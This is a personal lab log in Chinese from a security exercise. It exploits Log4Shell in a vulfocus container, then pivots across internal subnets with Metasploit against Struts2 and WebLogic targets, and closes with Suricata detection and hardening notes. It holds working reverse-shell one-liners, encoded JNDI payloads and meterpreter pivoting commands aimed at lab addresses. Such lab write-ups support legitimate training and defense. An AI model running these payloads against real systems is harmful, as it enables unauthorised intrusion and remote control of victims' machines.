# 个人开发日志-lihan3238

---

## 24.7.8: 开发环境搭建

### 日志

#### 安装 `kali-linux-2024.2-virtualbox-amd64` 虚拟机

1. 下载虚拟硬盘文件 `.vdi`

[官网下载](https://cdimage.kali.org/kali-2024.2/kali-linux-2024.2-virtualbox-amd64.7z) 最新版 `kali-linux-2024.2-virtualbox-amd64`

2. 在 `VirtualBox` 中创建虚拟机

新建虚拟机，选择 `Using an existing virtual hard disk file`，选择下载的 `kali-linux-2024.2-virtualbox-amd64.vdi` 文件。



创建虚拟机后，设置虚拟硬盘文件为 `多重加载` 以便于重复使用。
虚拟机其他配置信息如下：



3. 配置虚拟机网络

在 VirtualBox 中，创建一个 `Host-Only` 网络，设置 IPv4 网段为 `192.168.78.0/24`，启用 DHCP 服务器。

在创建好的虚拟机中，设置添加一个 `Host-Only` 网卡，选择刚刚创建的 `Host-Only` 网络，一共是两个网卡，一个是 `NAT`，一个是 `Host-Only`。

启动虚拟机后，配置 `Host-Only` 网卡 `eth1` ，编辑 `/etc/network/interfaces` 文件，添加如下配置：

```bash
auto lo
iface lo inet loopback

allow-hotplug eth0
iface eth0 inet dhcp

allow-hotplug eth1
iface eth1 inet dhcp
```
重启网络服务，使配置生效：
```bash
sudo ifdown eth1 && sudo ifup eth1
```

**严重问题** VirtualBox DHCP 服务器异常，虚拟机无法获取到 IP 地址，导致无法访问网络。





暂无解决方案，不得已转进 Vmware重新配置环境，顺便配置了 SSH 免密登录

虚拟机配置如下：

- hostname: `kalitargetserver`
- - user: `kali`
- - eth0: NAT
- - - ip: `192.168.4.129`
- - eth1: Host-Only
- - - ip: `192.168.102.129`
- host: `kaliattacker`
- - user: `kali`
- - eth0: NAT
- - - ip: `192.168.4.130`
- - eth1: Host-Only
- - - ip: `192.168.102.130`

#### 安装 Docker

```bash
sudo apt update && sudo apt install -y docker.io docker-compose jq

# 将当前用户添加到 docker 用户组，免 sudo 执行 docker 相关指令
# 重新登录 shell 生效
sudo usermod -a -G docker ${USER}

# 切换到 root 用户
sudo su -

# 使用国内 Docker Hub 镜像源（可选步骤）
# 国内 Docker Hub 镜像源可用性随时可能变化，请自测可用性
cat <<EOF > /etc/docker/daemon.json
{
  "registry-mirrors": [
    "https://docker.mirrors.sjtug.sjtu.edu.cn/",
    "https://mirror.baidubce.com/",
    "https://dockerproxy.com/",
    "https://docker.chenby.cn"
  ]
}
EOF

# 重启 docker 守护进程
systemctl restart docker
```

### 问题

#### 1. Kali 虚拟机无法正常启动



- 原因：安装了 Docker，Docker 开发环境会强制开启 Hyper-V ，导致 VirtualBox 无法启动。

- 解决：打开 `开始` 菜单，搜索 `程序和功能`,选择 `启用或关闭 Windows 功能`，在列表中找到 `Hyper-V` 把前面的勾选取消并确定。这个时候已经开始卸载，卸载完毕重启电脑即可。





如果还是不行那就用命令行再进行关闭。
以管理员身份运行命令提示符
执行命令
```bash
bcdedit /set hypervisorlaunchtype off
```
重启，运行 Virtual Box 即可

**恢复hyper启动**
```bash
bcdedit / set hypervisorlaunchtype auto
```

**一劳永逸**
Windows 上安装 Docker 时，选择 `WSL2 instead of HyperV`，装在 WSL2 上就完了

#### 2. 虚拟硬盘多重加载失败



- 原因：`.vdi` 文件版本格式问题，猜测解决方案是启动虚拟机后，VirtualBox会自动更新虚拟硬盘文件的版本，从而解决了版本的问题。

- 解决：先使用该虚拟硬盘创建虚拟机，打开虚拟机，然后关闭虚拟机，再设置多重加载该虚拟硬盘文件。



#### 3. 无法使用 SSH 连接虚拟机

- 原因：`/etc/ssh/sshd_config` 文件中，服务配置被注释：
```bash
Include /etc/ssh/sshd_config.d/*.conf

#Port 22
#AddressFamily any
#ListenAddress 0.0.0.0
#ListenAddress ::
```

- 解决：取消注释，`sudo systemctl restart sshd` 重启服务，`sudo systemctl enable ssh&&sudo systemctl start ssh` 

### 参考

- [Docker和Virtualbox的冲突](https://lihan3238.github.io/p/point_1/)
- [配置虚拟机与虚拟硬盘](https://lihan3238.github.io/p/nschap0x01/#%E9%85%8D%E7%BD%AE%E8%99%9A%E6%8B%9F%E6%9C%BA%E4%B8%8E%E8%99%9A%E6%8B%9F%E7%A1%AC%E7%9B%98)
- [ChatGPT](https://chatgpt.com/)

---

## 24.7.9: vulfocus 和单个 **漏洞靶标攻防** 初探(log4j2 CVE-2021-44228) 

### 日志

#### `kalitargetserver` 配置 vulfocus 


1. 拉取 vulfocus 镜像

```bash
docker pull vulfocus/vulfocus:latest
```

2. 下载并使用 [快速上手 vulfocus](https://github.com/c4pr1c3/ctf-games/tree/master/fofapro/vulfocus)

- 参见 [快速上手 vulfocus](https://github.com/c4pr1c3/ctf-games/tree/master/fofapro/vulfocus)
- 账号密码：`admin/admin`


3. 下载镜像并启动漏洞靶标



#### Log4Shell 漏洞原理浅探

1. 关键词

看到一些不太熟悉的名词，先了解一下：
- [`Log4j2`](https://github.com/apache/logging-log4j2)：Apache Log4j2 是 Java 平台上的一个开源日志框架，它是 Log4j 的下一代版本，提供了更为高效且灵活的日志记录功能。
- [`反弹 Shell`](https://www.imperva.com/learn/application-security/reverse-shell/)：利用目标系统的漏洞来启动 shell 会话，然后访问受害者的计算机。目标是连接到远程计算机并重定向目标系统 shell 的输入和输出连接，以便攻击者可以远程访问它。
- [`ldap`](https://www.redhat.com/en/topics/security/what-is-ldap-authentication)：轻量级目录访问协议 (Lightweight directory access protocol) 是一种帮助用户查找有关组织、个人等的数据的协议。 LDAP 有两个主要目标：将数据存储在 LDAP 目录中并对访问该目录的用户进行身份验证。它还提供应用程序从目录服务发送和接收信息所需的通信语言。目录服务提供对网络中组织、个人和其他数据的信息所在位置的访问。
- [`JNDI`](https://stackoverflow.com/questions/4365621/what-is-jndi-what-is-its-basic-use-when-is-it-used)：Java Naming and Directory Interface 是一个应用程序编程接口(API)，它为使用 Java TM 编程语言编写的应用程序提供命名和目录功能。它被定义为独立于任何特定的目录服务实现。因此，可以通过通用方式访问各种目录（新的、新兴的和已部署的）。

2. 漏洞原理

在 [NIST](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2021-44228&vector=AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H&version=3.1&source=NIST) 网站中可以看到，按照 CVSS 3.1 的评分标准，该漏洞的评分为10分，是一个极其严重的漏洞。

在 [cloudflare](https://blog.cloudflare.com/zh-cn/inside-the-log4j2-vulnerability-cve-2021-44228-zh-cn/) 的博客中，详细介绍了该漏洞的原理和利用方式：
CVE-2021-44228 是 JNDI 注入漏洞，Log4j2 在日志记录时，支持通过 JNDI 进行查找。例如，日志消息可以包含类似 `${jndi:ldap://example.com/a}` 的字符串，Log4j 会在记录日志时尝试解析这个字符串。
LOG4J2-313 添加了如下所示的 jndi 查找：“JndiLookup 允许通过 JNDI 检索变量。默认情况下，键的前缀将是 java:comp/env/，但是，如果键包含‘:’，则不会添加前缀。”
当键中存在 : 时，如 ${jndi:ldap://example.com/a} 中那样，就不会有前缀，并且会向 LDAP 服务器查询该对象。这些查找可以在 Log4j 的配置中使用以及在记录行时使用。
所以，攻击者只需查找被记录的一些输入，然后添加诸如 ${jndi:ldap://example.com/a} 之类的内容。当 Log4j2 解析这个日志消息时，它会通过 JNDI 向指定的服务器地址发送查找请求。如果攻击者控制的服务器返回一个恶意的 Java 类，这个类会被 Log4j 加载并执行，从而实现远程代码执行（RCE）。

在 [GitHub Gist](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592) 的页面可以看到，由于Log4j广泛用于各种Java应用程序和服务，因此这个漏洞影响范围非常广泛，包括Web服务器、应用程序服务器、邮件服务器等。

#### 漏洞存在性检测

- 确认受漏洞影响组件的版本

进入漏洞靶场容器中找到 `demo.jar`，使用 `docker cp` 命令将其拷贝到本地，然后使用 `jd-gui` 工具查看其源码。



版本确实存在漏洞

#### 漏洞可利用性检测

1. 访问 [dnslog.cn](http://dnslog.cn/) 获取二级域名 `xco6xt.dnslog.cn`



2. 编码并发送 url

根据靶场容器ip和获取的二级域名，编码 url：

```bash
curl "http://192.168.4.129:53282/hello?payload=${jndi:ldap://xco6xt.dnslog.cn/lihan3238}"

#编码 `${jndi:ldap://xco6xt.dnslog.cn/lihan3238}` 
# `%24%7Bjndi%3Aldap%3A%2F%2Fxco6xt.dnslog.cn%2Flihan3238%7D`：

curl "http://192.168.4.129:53282/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2Fxco6xt.dnslog.cn%2Flihan3238%7D"
```



看到 dnslog.cn 页面有解析记录，说明漏洞可利用。

3. 自动化工具验证 - [**log4j-scan**](https://github.com/fullhunt/log4j-scan)

```bash
# 下载 log4j-scan
git clone https://github.com/fullhunt/log4j-scan.git

cd log4j-scan

# 安装依赖
pip install -r requirements.txt

# 手动修改代码 log4j-scan.py 在 post_data_parameters 中添加 payload 参数

# 无脑替换
sed -i.bak 's/password"/password", "payload"/' log4j-scan.py

# 扫描靶场容器
python3 log4j-scan.py --request-type post -u http://192.168.182.129:43381/hello --dns-callback-provider dnslog.cn
```

这里发现报错,想起来靶场容器不允许 POST 请求，改为 GET 请求，同时修改 GET 请求的参数，将键 `v` 改为 `payload`：



```bash
python3 log4j-scan.py --request-type get -u http://192.168.182.129:43381/hello --dns-callback-provider dnslog.cn
```

成功扫描到漏洞



### 问题

#### 1. curl POST 请求不允许

按照原教程，使用 `curl -X POST` 发送请求，但是返回 `405 Method Not Allowed` 错误。



- 原因：靶场容器似乎不允许 POST 请求，只能使用 GET 请求
- 解决：本质上是发送一个包含关键词的 HTTP 请求，可以使用 GET 请求替代 `curl "http://192.168.4.129:26678/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2Fxco6xt.dnslog.cn%2Flihan3238%7D"`

#### 2. log4j-scan.py 报错

除了上述问题，`log4j-scan.py` 一开始使用命令 `python3 log4j-scan.py --request-type post -u http://192.168.182.129:43381/hello` 还有报错 `requests.exceptions.ConnectionError: HTTPSConnectionPool(host='interact.sh', port=443): Max retries exceeded with url: /register (Caused by NewConnectionError('<urllib3.connection.HTTPSConnection object at 0x7f8240f643d0>: Failed to establish a new connection: [Errno -3] Temporary failure in name resolution'))`

- 原因：`log4j-scan.py` 代码中 `interact.sh` 服务器只能通过 HTTP 访问，而脚本默认使用 HTTPS 访问
- 解决：增加 `--dns-callback-provider dnslog.cn` 参数，使用 `dnslog.cn` 作为 DNS 回调服务器

### 参考

- [NIST](https://nvd.nist.gov/vuln-metrics/cvss/v3-calculator?name=CVE-2021-44228&vector=AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H&version=3.1&source=NIST)
- [cloudflare](https://blog.cloudflare.com/zh-cn/inside-the-log4j2-vulnerability-cve-2021-44228-zh-cn/)
- [GitHub Gist](https://gist.github.com/SwitHak/b66db3a06c2955a9cb71a8718970c592)
- [interact.sh server unavailable](https://github.com/fullhunt/log4j-scan/issues/131)

- - -

## 24.7.10:  **漏洞靶标攻防** 深入

### 日志

#### 漏洞利用效果评估-反弹 Shell(log4j2 CVE-2021-44228)

##### 红队-漏洞利用实战 

1. 测试攻击机 Shell 连接靶标容器 

- `kaliattacker` 在攻击机上监听端口，等待靶标容器连接

```bash
nc -l -p 7777
```

- `kalitargetserver` 在靶标容器中执行反弹 Shell 命令

```bash
# 进入靶标容器
sudo docker exec -it recursing_hodgkin /bin/bash

# 执行反弹 Shell 命令
bash -i >& /dev/tcp/192.168.56.130/7777 0>&1
# 启动一个交互式 Bash shell，并将其输入( 0>&1 重定向输入到输出)和输出( >& 重定向标准错误输出到标准输出)都通过TCP连接重定向到 192.168.4.130 的 7777 端口。
```

- 测试效果：

[](https://asciinema.org/a/x3PyHDW2CRkH9MxDZivEgUsS7)

3. 反弹 Shell 实战

- `kaliattacker`

安装 `JNDI注入` 利用工具 [JNDIExploit](https://github.com/Mr-xn/JNDIExploit-1)

解压后检查校验和无误：
  
```bash
└─$ shasum -a 256 JNDIExploit-1.2-SNAPSHOT.jar
c96ce1de7f739575d86f2e558aeb97dc691077b31a1c510a3dabf096c827dfa8  JNDIExploit-1.2-SNAPSHOT.jar
```

借助 `JNDIExploit` 工具，反弹 Shell：

```bash
# 开启JNDI服务
java -jar JNDIExploit-1.2-SNAPSHOT.jar -i 192.168.182.129
# 尝试反弹 Shell

curl http://192.168.182.129:43381/hello -d 'payload=${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.182.130/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}' 
# 发送 包含访问恶意命令（ Base64 编码的 反弹Shell 命令）地址的 HTTP 请求
``` 



注意到这里又出现了 POST 请求不允许的情况，根据昨天的经验，使用 GET 请求替代：

```bash
curl "http://192.168.4.129:43381/hello?payload=${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/'$(echo -n 'bash -i >& /dev/tcp/192.168.182.130/7777 0>&1' | base64 -w 0 | sed 's/+/%252B/g' | sed 's/=/%253d/g')'}"
```

发现又无效，原因是 URL 编码问题：

> When making a request to an API, the parameters included in the URL request may contain characters that have special meaning for the web server. **URL encoding allows the browser or web server to safely transfer this data** , as it converts all special characters and spaces into a format that web browsers can understand.
- (What is URL encoding? - LocationIQ)[https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://locationiq.com/glossary/url-encoding&ved=2ahUKEwj_vtnz6JyHAxVvklYBHRjWBM8QFnoECBcQAw&usg=AOvVaw16s5ejvi6YAfxkTdWNT8zo]

同时，注意到改为 GET 请求后，Bash 命令的 Base64 编码也需要修改，摸索了一下，最终成功写出 Bash 命令

```bash
# 反弹 Shell 命令
SHELL_COMMAND="bash -i >& /dev/tcp/192.168.182.130/7777 0>&1"
# Base64 编码
BASE64_PAYLOAD=$(echo -n "$SHELL_COMMAND" | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g')
# 拼接 URL
TARGET_URL="http://192.168.182.129:43381/hello" 
FULL_PAYLOAD="\${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/${BASE64_PAYLOAD}}" 
# URL 编码
URL_FULL_PAYLOAD=`echo ${FULL_PAYLOAD} | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g' ` 
# 发送 GET 请求
curl "${TARGET_URL}?payload=${URL_FULL_PAYLOAD}"

# curl 的 GET 请求
# http://192.168.182.129:43381/hello?payload=%24%7b%6a%6e%64%69%3a%6c%64%61%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%38%32%2e%31%33%30%3a%31%33%38%39%2f%54%6f%6d%63%61%74%42%79%70%61%73%73%2f%43%6f%6d%6d%61%6e%64%2f%42%61%73%65%36%34%2f%59%6d%46%7a%61%43%41%74%61%53%41%25%32%42%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4f%54%49%75%4d%54%59%34%4c%6a%45%34%4d%69%34%78%4d%7a%41%76%4e%7a%63%33%4e%79%41%77%50%69%59%78%7d%0a

# 一行命令
SHELL_COMMAND="bash -i >& /dev/tcp/192.168.182.130/7777 0>&1" && BASE64_PAYLOAD=$(echo -n "$SHELL_COMMAND" | base64 -w 0 | sed 's/+/%2B/g' | sed 's/=/%3d/g') && TARGET_URL="http://192.168.182.129:43381/hello" && FULL_PAYLOAD="\${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/${BASE64_PAYLOAD}}" && URL_FULL_PAYLOAD=`echo ${FULL_PAYLOAD} | xxd -plain | tr -d '\n' | sed 's/\(..\)/%\1/g' ` && curl "${TARGET_URL}?payload=${URL_FULL_PAYLOAD}"
```

[](https://asciinema.org/a/5IEW49VBaINFUfVFmyMJdkkgM)

最终找到 `flag`：



##### 蓝队-漏洞利用流量检测实战

- 面向网络流量的深度包检测 - jasonish/suricata:6.0.4

```bash
# kalitartgetserver
# 启动 suricata 检测容器
# 此处 eth1 对应靶机所在虚拟机的 host-only 网卡 IP
docker run -d --name suricata --net=host -e SURICATA_OPTIONS="-i eth1" jasonish/suricata:latest

# 更新 suricata 规则，更新完成测试完规则之后会自动重启服务
docker exec -it suricata suricata-update -f

# 重启 suricata 容器以使规则生效
# docker restart suricata

# 监视 suricata 日志
docker exec -it suricata tail -f /var/log/suricata/fast.log
```

[](https://asciinema.org/a/xTLsXXee7p9uUiyjwEX0vKkXo)

##### 蓝队-漏洞利用防御与加固



这张图表展示了Log4j JNDI攻击的原理和防御方法：
1. **攻击者发起请求**
攻击者在 HTTP 请求的头字段（例如 User-Agent）中插入一个包含 JNDI 查找的字符例：`User-Agent: ${jndi:ldap://evil.xa/x}`
*防御措施：使用 WAF（Web应用防火墙）拦截此类恶意请求。*

2. **易受攻击的服务器接收请求**
易受攻击的服务器接收到请求，并将包含 JNDI 查找的字符串传递给 Log4j 进行日志记录。
*防御措施：禁用 Log4j 或更新 Log4j 到修复版本。*

3. **Log4j 处理请求**
log4j 解释该字符串，并尝试查询恶意的 LDAP 服务器以获取更多信息。
*防御措施：禁用JNDI查找功能。*

4. **查询恶意 LDAP 服务器**
Log4j 向恶意 LDAP 服务器发送查询请求，获取恶意的 Java 类。
*防御措施：确保 LDAP 查询指向可信的内部服务器或禁用远程代码库。*

5. **Java 反序列化恶意代码**
恶意 LDAP 服务器响应目录信息，包含恶意 Java 类的位置。Java 反序列化该类并执行其中的恶意代码。
*防御措施：禁用远程代码库功能，确保反序列化过程的安全。*

具体防护措施：

- 使用Web应用防火墙（WAF）：在请求到达服务器前，使用WAF来过滤和阻止恶意请求。
- 禁用Log4j或更新Log4j：将Log4j更新至修复版本，或者禁用Log4j日志记录。
- 禁用JNDI查找：配置Log4j以禁用JNDI查找功能，防止它解析和执行恶意代码。
- 禁用远程代码库：通过配置，禁用从远程代码库加载类，确保Java反序列化过程的安全。

### 问题 

#### 1. kali 虚拟机上连接shell失败

Kali 虚拟机上试验命令 `bash -i >& /dev/tcp/192.168.182.130/7777 0>&1` 报错 `zsh: no such file or directory: /dev/tcp/192.168.4.130`

- 原因：`/dev/tcp/` 是 Bash 的一个特性，zsh 不支持

- 解决：输入 `bash` 切换到 Bash，再次执行反弹 Shell 命令

#### 2. JNDIExploit 反弹 Shell 失败

- 原因：`JNDIExploit` 工具使用 POST 请求，据昨天的经验，靶场容器不允许 POST 请求

- 解决：使用 GET 请求替代

```bash
# Base64 编码 `bash -i >& /dev/tcp/192.168.182.130/7777 0>&1`
# `YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE4Mi4xMzAvNzc3NyAwPiYx`
# 替换 `+` 为 `%2B`，`=` 为 `%3d`
# `YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE4Mi4xMzAvNzc3NyAwPiYx`
# URL 编码 `${jndi:ldap://192.168.182.130:1389/TomcatBypass/Command/Base64/YmFzaCAtaSA%2BJiAvZGV2L3RjcC8xOTIuMTY4LjE4Mi4xMzAvNzc3NyAwPiYx}`
curl "http://192.168.182.129:51360/hello?payload=%24%7Bjndi%3Aldap%3A%2F%2F192.168.182.130%3A1389%2FTomcatBypass%2FCommand%2FBase64%2FYmFzaCAtaSA%252BJiAvZGV2L3RjcC8xOTIuMTY4LjE4Mi4xMzAvNzc3NyAwPiYx%7D"
```

#### 3. suricata 更新失败 及 无法检测到攻击流量

- 原因：`jasonish/suricata:6.0.4` 版本太低，无法更新规则
- 解决：使用 `jasonish/suricata:latest` 镜像

### 参考

- (What is URL encoding? - LocationIQ)[https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://locationiq.com/glossary/url-encoding&ved=2ahUKEwj_vtnz6JyHAxVvklYBHRjWBM8QFnoECBcQAw&usg=AOvVaw16s5ejvi6YAfxkTdWNT8zo]

- - -

## 24.7.11-12: **多网段渗透场景攻防** 初探-跨网段渗透

### 日志

#### DMZ 场景初始化

1. 启动 DMZ 场景





2. 捕获指定容器的上下行流量

```bash
# kalitargetserver
# 在 tmux 中启动 tcpdump
sudo docker ps
# 将 container_id 替换为指定容器(victim-1)的 ID
container_id="56410ce8fa18"
# 指定容器的上下行流量
sudo docker run --rm --net=container:${container_id} -v ${PWD}/tcpdump/${container_id}:/tcpdump kaazing/tcpdump
# Ctrl + B, D 退出 tmux
```



3. `metasploit` 环境配置

- kaliattacker

```bash
# metasploit 基础配置
# 更新 metasploit
sudo apt install -y metasploit-framework

# 初始化 metasploit 本地工作数据库
sudo msfdb init

# 启动 msfconsole
msfconsole

# 确认已连接 pgsql
db_status

# 建立工作区
workspace -a demo_lihan

# 查看工作区
workspace -l
```



#### 攻击靶标1-公开在外网的 `victim-1`

```bash
# kaliattacker

# 已知 victim-1 的 IP 和开放端口，扫描端口上进行的服务的信息
## -n 不进行 DNS 解析 -A 详细信息
db_nmap -p 58277 192.168.182.129 -n -A

# 根据扫描到的信息和预知的漏洞信息 `struts2` `S2-059` 搜索选择
search S2-059 type:exploit
search struts2 type:exploit

# 查看模块信息
info [exploit/multi/http/struts2_multi_eval_ognl 的序号]

# 选择漏洞模块
use [exploit/multi/http/struts2_multi_eval_ognl 的序号]

# 查看参数列表 payloads负载
show options
show payloads

# 设置合适的 参数
## 靶机 IP
set RHOSTS 192.168.182.129
## 靶机端口
set RPORT 58277

# 设置合适的 payload
set payload payload/cmd/unix/reverse_bash

# 查看设置的参数
show options

# 运行 漏洞利用程序
run -j

# 查看攻击成功后反弹 Shell 获取的会话
sessions -l

# 进入会话
sessions -i [会话 ID]

# 查看反弹 Shell 的效果（无命令行交互提示）
cd ../
search -f *flag*
#find -name *flag*

# 找到 flag
##/tmp/flag{-}
## Ctrl + Z 挂起会话
```

[](https://asciinema.org/a/0V0X3i0sy9RGJvTRKsdTZZ6yv)

#### 攻击靶标2-第一层内网的 `victim-2-*`

- kaliattacker
- `meterpreter` 是 Metasploit 框架中的一个高级 payload，提供了一个强大的内存驻留 shell，允许攻击者在目标系统上执行各种命令和脚本，而不会在目标系统的硬盘上留下痕迹。它具备强大的后渗透功能，可以帮助攻击者在目标系统上进行广泛的操作。与控制台之间的通信经过加密，防止流量被拦截和分析。

1. 建立立足点，发现靶标 `victim-2-<2-4>`

```bash
# 将 cmdshell 升级到 meterpreter shell
sessions -u [shell 会话 ID]
## 或手动升级
## search meterpreter type:post
## use post/multi/manage/shell_to_meterpreter
## show options
## set lhost 192.168.182.130
## set session 1 
## run -j
## sessions -l

# 进入 meterpreter 会话
sessions -i [meterpreter 会话 ID]

# 查看网卡信息
ipconfig
# 查看路由表和 ARP 表
route
arp

# 根据发现的内网信息，创建路由
run autoroute -s 192.177.84.0/24

# 检查 Pivot 路由是否已创建成功
run autoroute -p

# 返回 msfconsole
#Ctrl+Z

# 使用 portscan 工具扫描发现内网主机

search portscan
use auxiliary/scanner/portscan/tcp
show options

# 设置目标 IP
set RHOSTS 192.177.84.2-254
# 设置扫描端口范围 
## 根据预知的信息 得知 7001 端口开放，实战环境需要扫描所有可能的端口
set PORTS 7001
# 设置线程数
set THREADS 10
# 运行扫描
run -j

# 扫描完成后，查看主机存活情况
hosts

# 查看发现的服务列表
services

# 建立 socks5 代理

search socks_proxy
use auxiliary/server/socks_proxy
run -j

# 查看后台建立 socks5 代理是否成功
jobs -v

# 开启新的 ssh 会话连接 kaliattacker

# 检查 1080 端口开放情况
sudo lsof -i tcp:1080 -l -n -P

# 编辑 /etc/proxychains4.conf 配置文件
sudo sed -i.bak -r "s/socks4\s+127.0.0.1\s+9050/socks5 127.0.0.1 1080/g" /etc/proxychains4.conf

# 使用 proxychains4 命令扫描内网主机
proxychains sudo nmap -vv -n -p 7001 -Pn -sT 192.177.84.2-5

## 端口状态为 filter 时，验证网络层连通性
#curl http://192.170.84.2:7001 -vv
#curl http://192.170.84.3:7001 -vv
#curl http://192.170.84.4:7001 -vv

# 返回 msfconsole 并重连 meterpreter 会话
sessions -i [meterpreter 会话 ID]
```

[](https://asciinema.org/a/wkJGvztDXLToALaTtEqnoPVR0)

2. 攻破靶标 `victim-2-<2-4>`

- kaliattacker

```bash
# search exploit
search cve-2019-2725

# getshell
use 0
show options
set RHOSTS 192.177.84.3
# 分别设置不同的靶机 IP 
#set RHOSTS 192.177.84.4
#set RHOSTS 192.177.84.5

set lhost 192.168.182.130
# 分别 run
run -j

# get flag2-4
sessions -c "ls /tmp" -i 3,4,5
```

[](https://asciinema.org/a/hBmwfBwjBfmhwZcJ0sdTkb96x)

#### 攻击靶标3-第二层内网的 `victim-3`

- kaliattacker

1. 发现靶标 `victim-3`

```bash
# 通过网卡、路由、ARP 发现新子网 192.178.85.0/24
sessions -c "ifconfig" -i 3,4,5
# 将会话 5 升级为 meterpreter shell
sessions -u 5
# 新的 meterpreter shell 会话编号此处为 6
sessions -i 6
# 将新发现的子网加入 Pivot Route
run autoroute -s 192.178.85.0/24
run autoroute -p
# Active Routing Table
# ====================
# 
#    Subnet             Netmask            Gateway
#    ------             -------            -------
#    192.169.85.0       255.255.255.0      Session 7
#    192.170.84.0       255.255.255.0      Session 2
# 通过 CTRL-Z 将当前会话放到后台继续执行
use scanner/portscan/tcp
set RHOSTS 192.178.85.2-254
# 预先知道的端口 80
set ports 80
run -j
# 发现终点靶标 192.178.85.2 80(tcp)
```

[](https://asciinema.org/a/4mgUb4myS0CADvTERxdi30BpB)

2. 攻破靶标 `victim-3`

```bash
# 利用跳板机 192.170.84.5 的 shell 会话「踩点」最终靶标
sessions -c "curl http://192.178.85.2" -i 5
# 发现没安装 curl ，试试 wget
sessions -c "wget http://192.178.85.2" -i 5
# 发现没有命令执行回显，试试组合命令
sessions -c "wget http://192.178.85.2 -O /tmp/result && cat /tmp/result" -i 5
# 发现 get flag 提示
sessions -c "wget 'http://192.178.85.2/index.php?cmd=ls /tmp' -O /tmp/result && cat /tmp/result" -i 5
```

[](https://asciinema.org/a/nFWnjq51ky4Hac4CvEIZmOVTg)

### 问题

#### nginx-php-flag 镜像的容器启动失败



- 原因：查看容器日志发现有失败的 ping 的记录；
进而进入容器查看，发现有一个 2.sh 的文件中包含 `ping  aa.25qcpp.dnslog.cn`,实际上 ping 不通；
- 解决：修改 `ping aa.25qcpp.dnslog.cn` 这行为`ping 127.0.0.1`，保证容器持续运行，重新构建镜像并运行容器。

```bash
# 2.sh
#!/bin/bash
/etc/init.d/nginx start&&/etc/init.d/php7.2-fpm start&&ping  127.0.0.1

# Dockerfile
FROM vulshare/nginx-php-flag:latest

COPY ./2.sh /2.sh

RUN chmod +x /2.sh

CMD ["/2.sh"]

# 构建镜像
docker build -t vulshare/nginx-php-flag:latest .

# 重新启动场景
```



### 参考

- [ChatGPT](https://chatgpt.com/)

- - -

## 24.7.15: **多网段渗透场景攻防** 流量分析

### 日志

#### 流量分析

- kalitargetserver
使用 `` 打开 `./tcpdump/[]/` 目录下的流量文件 `tcpdump.pcap` ，使用 `wireshark` 分析流量


### 问题


### 参考

- [ChatGPT](https://chatgpt.com/)

- - -
